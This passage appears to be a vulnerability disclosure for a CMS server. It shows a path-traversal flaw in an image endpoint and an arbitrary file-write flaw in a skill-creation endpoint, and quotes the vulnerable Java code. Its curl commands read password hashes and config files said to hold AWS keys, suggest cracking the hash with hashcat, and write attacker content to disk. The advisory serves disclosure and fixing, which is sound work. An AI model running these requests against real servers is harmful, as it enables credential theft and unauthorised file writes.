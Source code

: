 How can we get it back?
Easy, `curl http://localhost:4000/cms/getImage.png?image=../settings/authentication.json` will give us:
```json
{"passwd_login:local@local.de": {
  "salt": "DLLACzvJzjzsKbv5KX0h",
  "id": "email:local@local.de",
  "passwordHash": "7RSabEzhkMpOfpVsiQrEK3kzDCABkzYZ9P2rwqwy9cw=",
  "activated": true
}}
```
and `curl http://localhost:4000/cms/getImage.png?image=../settings/authorization.json` will tell us, whether this is an _admin_ or a normal _user_ account:
```json
{"email:local@local.de": {
  "permissions": {},
  "userRole": "user"
}}
```
One could then use `hashcat` to break the hash.

Running `curl http://localhost:4000/cms/getImage.png?image=../../conf/config.properties` would get us AWS keys or in certain cases the password for a Github acccount.

**Any file that the application can read, can also be read by us!**
## Cause
`GetImageServlet.java` directly derives `image_path` from the `GET` parameter `image` and then uses it to create a new `File` whose content will then be transmitted back to us.
```java
String image_path = post.get("image","");
[...]
imageFile = new File(DAO.data_dir  + File.separator + "image_uploads" + File.separator + image_path);
```



# Arbitrary (.txt) File Write
Running
```bash
curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'model=general' \
-F 'group=Knowledge' -F 'language=en' -F 'skill=whois' -F 'content=OWNED' \
-F 'image=' -F 'image_name=owned' 'http://localhost:4000/cms/createSkill.json'
```
will successfully create the file `susi_skill_data/models/general/Knowledge/en/whois.txt` (`susi_skill_data` is a sibling directory of `susi_server`) with the content `OWNED`.

## Cause
`CreateSkillService.java` directly derives `skill_name` from the `GET` parameter `skill`. This is then used to retrieve a `skill` file to which user-controlled `content` is written.
```java
String skill_name = req.getParameter("skill");
File skill = DAO.getSkillFileInLanguage(language, skill_name, false);
[...]
String content = req.getParameter("content");
[...]
try (FileWriter Skillfile = new FileWriter(skill)) {
Skillfile.write(content);

```
